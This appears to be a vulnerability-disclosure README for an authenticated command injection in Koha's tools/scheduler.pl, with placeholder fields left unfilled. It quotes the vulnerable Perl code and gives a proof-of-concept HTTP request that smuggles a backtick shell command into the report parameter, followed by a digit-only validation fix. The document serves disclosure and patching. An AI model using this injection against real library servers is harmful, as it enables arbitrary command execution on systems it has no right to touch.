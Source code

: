 # Koha ILS Command Injection Vulnerability

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-YYYY-XXXXX (pending assignment)
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes insufficient validation. While the code checks that a report ID exists in the database, it doesn't sanitise the value against command injection attacks. An attacker can bypass this validation by providing a valid report ID followed by shell metacharacters.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Recommended Fixes

Implement proper input validation and command sanitisation:

```perl
# Validate that $report contains only digits
if ($report && $report =~ /^\d+$/) {
    my $command =
          "export KOHA_CONF=\"$CONFIG_NAME\"; "
        . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
    # Rest of code...
}
else {
    # Handle invalid input
    $template->param( job_add_failed => 1 );
}
```

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on [DATE], and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: [Your discovery date]
- **Reported**: [Your report date]
- **Fixed**: [Fix date]
- **Public disclosure**: [Disclosure date]

## Credit

Discovered by [Your Name/Organisation]

## References

1. [Link to Koha security advisory when available]
2. [Link to patch/commit when available]
